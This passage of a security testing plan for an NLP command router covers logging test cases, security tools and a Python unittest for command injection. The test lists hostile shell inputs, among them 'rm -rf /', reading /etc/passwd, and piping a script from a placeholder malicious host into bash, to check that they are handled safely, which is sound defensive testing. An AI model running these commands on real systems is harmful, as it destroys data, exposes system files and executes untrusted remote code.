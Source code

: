 ### 5. Error Handling and Logging Testing

#### Objective
Verify that errors are handled securely and logging is appropriate.

#### Test Cases

| ID | Test Case | Description | Expected Result |
|----|-----------|-------------|----------------|
| EL-01 | Error Suppression | Trigger errors and check if they're properly caught | No unhandled exceptions |
| EL-02 | Log Injection | Attempt to inject malicious content into logs | Log entries properly sanitized |
| EL-03 | Log Access Control | Verify access controls on log files | Logs accessible only to authorized users |
| EL-04 | Log Completeness | Verify security events are properly logged | Security events captured in logs |

## Security Testing Tools

### Static Analysis Tools
- Bandit (Python security linter)
- SonarQube
- Safety (Python dependency checker)

### Dynamic Analysis Tools
- OWASP ZAP (Web application scanner)
- Burp Suite (Web security testing)
- Postman (API testing)

### Custom Testing Scripts

```python
# Example security test script for input validation
import unittest
import sys
import os

# Add the parent directory to sys.path to import the modules
sys.path.append(os.path.dirname(os.path.dirname(os.path.abspath(__file__))))

# Import our modules
from nlp.multilingual_handler import parse_multilingual_command
from nlp.command_router import route_command

class SecurityInputValidationTest(unittest.TestCase):
    
    def test_command_injection(self):
        """Test resistance to command injection attempts"""
        injection_attempts = [
            "show inventory; rm -rf /",
            "get_report | cat /etc/passwd",
            "search_product; ls -la",
            "show top customers && echo 'compromised'",
            "get_inventory; curl http://malicious.com/script.sh | bash"
        ]
        
        for command in injection_attempts:
            # Parse the command
            parsed_result = parse_multilingual_command(command)
            
            # Verify that the command is treated as text, not executed
            self.assertNotEqual(parsed_result["intent"], "unknown", 
                              f"Command injection attempt was not properly handled: {command}")
```